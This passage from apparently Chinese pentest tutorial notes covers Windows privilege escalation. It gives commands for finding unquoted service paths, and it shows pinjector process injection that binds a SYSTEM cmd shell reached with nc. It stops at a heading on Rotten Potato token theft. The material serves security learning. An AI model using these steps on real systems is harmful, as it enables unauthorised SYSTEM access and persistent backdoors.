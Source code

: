 1. 检测引号服务路径：

```shell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

2. 利用路径制作文件并上传。
3. 启用服务或重启`sc start "服务名"`。
4. 利用 msf 监听，实现提权。

## 进程注入

### 原理

注入到`system`用户的进程，当管理员账户或其他账户注销后，后门仍然存在。可以理解为将`pinjector`注入到其他用户的进程里一起运行，进而同时拥有了对应的权限。

::: tip 适用版本

- [x] pinjector 进程注入工具针对-Windows2008以前的操作系统
- [x] pexec64 32 进程注入工具针对-Windows2008及以后的操作系统

:::

## 提权

使用工具列出当前操作系统的所有进程：

```shell
pinjector.exe -l
```

![](/images/image20210518152734.png)

可以看到不同的进程对应不同 PID 和用户。

执行：

```shell
pinjector.exe -p 600 cmd 2345
```

注入进程`pid`为`600`的进程，使用端口`2345`返回`cmd`，执行成功后在任务管理器里并没有多出进程，使用 kali：

```shell
nc 192.168.70.135 2345
```

反弹 shell 并提权为 system。

::: tip Windows2003&10

进程注入提权是本地提权方式的一种较为老的安全技术了，利用的是注入进程的所有者实现权限共享机制，这类技术主要利用在 Windows2008 之前操作系统上.所以我们需要学习后续的本地提权更多的手法才能有针对高版本的系统。

:::

## 烂土豆配合令牌窃取
